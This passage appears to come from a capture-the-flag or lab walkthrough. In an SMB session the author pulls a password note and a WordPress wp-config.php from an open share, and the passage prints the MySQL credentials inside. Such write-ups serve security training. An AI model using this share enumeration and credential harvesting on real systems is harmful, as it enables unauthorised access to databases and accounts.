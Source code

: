 ```bash
getting file \deets.txt of size 139 as deets.txt (3.8 KiloBytes/sec) (average 3.8 KiloBytes/sec)
smb: \> 
# This is the content of the deets.txt
CBF Remembering all these passwords.

Remember to remove this file and update your password after we push out the server.

Password 12345




# The content of the wordpress folder
smb: \> cd wordpress\
smb: \wordpress\> ls
  .                                   D        0  Tue Aug 15 13:21:08 2017
  ..                                  D        0  Tue Aug 15 13:05:52 2017
  wp-config-sample.php                N     2853  Wed Dec 16 10:58:26 2015
  wp-trackback.php                    N     4513  Fri Oct 14 21:39:28 2016
  wp-admin                            D        0  Wed Aug  2 23:02:02 2017
  wp-settings.php                     N    16200  Thu Apr  6 20:01:42 2017
  wp-blog-header.php                  N      364  Sat Dec 19 12:20:28 2015
  index.php                           N      418  Wed Sep 25 02:18:11 2013
  wp-cron.php                         N     3286  Sun May 24 19:26:25 2015
  wp-links-opml.php                   N     2422  Mon Nov 21 03:46:30 2016
  readme.html                         N     7413  Mon Dec 12 09:01:39 2016
  wp-signup.php                       N    29924  Tue Jan 24 12:08:42 2017
  wp-content                          D        0  Mon Aug 21 12:07:27 2017
  license.txt                         N    19935  Mon Jan  2 18:58:42 2017
  wp-mail.php                         N     8048  Wed Jan 11 06:13:43 2017
  wp-activate.php                     N     5447  Tue Sep 27 23:36:28 2016
  .htaccess                           H       35  Tue Aug 15 13:40:13 2017
  xmlrpc.php                          N     3065  Wed Aug 31 18:31:29 2016
  wp-login.php                        N    34327  Fri May 12 19:12:46 2017
  wp-load.php                         N     3301  Tue Oct 25 05:15:30 2016
  wp-comments-post.php                N     1627  Mon Aug 29 14:00:32 2016
  wp-config.php                       N     3703  Mon Aug 21 11:25:14 2017
  wp-includes                         D        0  Wed Aug  2 23:02:03 2017

3029776 blocks of size 1024. 1456636 blocks available
smb: \wordpress\> 

# wp-config.php is interesting, because it should contain database with credential information.
# We will use the get command to download this file to the home directory of our Kali Linux machine
smb: \wordpress\> get wp-config.php 
getting file \wordpress\wp-config.php of size 3703 as wp-config.php (116.7 KiloBytes/sec) (average 116.7 KiloBytes/sec)
smb: \wordpress\> 

# If we check inside the wp-config.php we will find username and password
/** MySQL database username */
define('DB_USER', 'Admin');

/** MySQL database password */
define('DB_PASSWORD', 'TogieMYSQL12345^^');
```
